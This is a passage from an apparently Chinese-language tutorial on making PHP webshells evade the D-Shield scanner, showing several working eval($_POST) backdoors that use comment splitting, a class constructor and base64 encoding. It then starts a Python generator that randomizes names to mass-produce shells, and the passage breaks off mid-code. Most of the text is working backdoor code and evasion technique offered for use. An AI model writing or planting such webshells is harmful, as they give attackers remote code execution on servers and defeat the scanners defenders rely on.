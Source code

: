这里用两段注释在 "eval(" 与 "$_POST" 之间起到了隔离的作用，因此绕过了直接拼接这个规则，D 盾继续杀一下

![](https://mmbiz.qpic.cn/mmbiz_png/dAMlD06OYdJUjfSUfXxvV0uINLfUse46EkRd4Wz5BpEGsLryanMlzkRKMjfDJoicvLIDRwia1SbLrDXBEVRq5y9A/640?wx_fmt=png)

已经免杀成功，再看一下能否使用

![](https://mmbiz.qpic.cn/mmbiz_png/dAMlD06OYdJUjfSUfXxvV0uINLfUse46OUBPeKP7f9cTIn1lK0fk7ubXclanib3QgHiabMic6ICHEym5jxV5XTatA/640?wx_fmt=png)

既然如此，我们的核心绕过思路就是利用注释了，为了去除特征，必不可少的就是随机性了

使用函数返回值与 eval 拼接只是权宜之计，毕竟也是一条规则就能够被干掉的。

所以我们这里使用类和构造函数来替代主动调用函数，

```
<?php
class x
{

        function __construct()
        {      
                @eval("/*sasas23123*/".$_POST['a']."/*sdfw3123*/");
        }

}
new x();

?>
```

改到这里，我不禁想 如果 D 盾发狠把 ".$_POST['a']." 当独立规则，那岂不是也歇菜，所以，我决定使用 base64 编码将 "$_POST['a']" 转化一下

```
<?php
class x
{
        public $payload = null;
        public $decode_payload = null;
        function __construct()
        {       $this->payload='ZXZhbCgkX1BPU1RbYV0pOw==';
                $this->decode_payload = @base64_decode( $this->payload );
                @eval("/*sasas23123*/".$this->decode_payload."/*sdfw3123*/");
        }

}
new x();

?>
```

到现在为止，模板确认

后面就是写轮子了，至于轮子原理也很简单，就是将可以修改特征的参数名使用随机数填充，比如类名、public 变量名、用于混淆的注释字符等。  
代码如下：

```
import random

#author: pureqh
#github: https://github.com/pureqh/webshell


shell = '''<?php
class {0}{3}
        public ${1} = null;
        public ${2} = null;
        function __construct(){3}
        $this->{1}='ZXZhbCgkX1BPU1RbYV0pOw==';
        $this->{2} = @base64_decode( $this->{1} );
```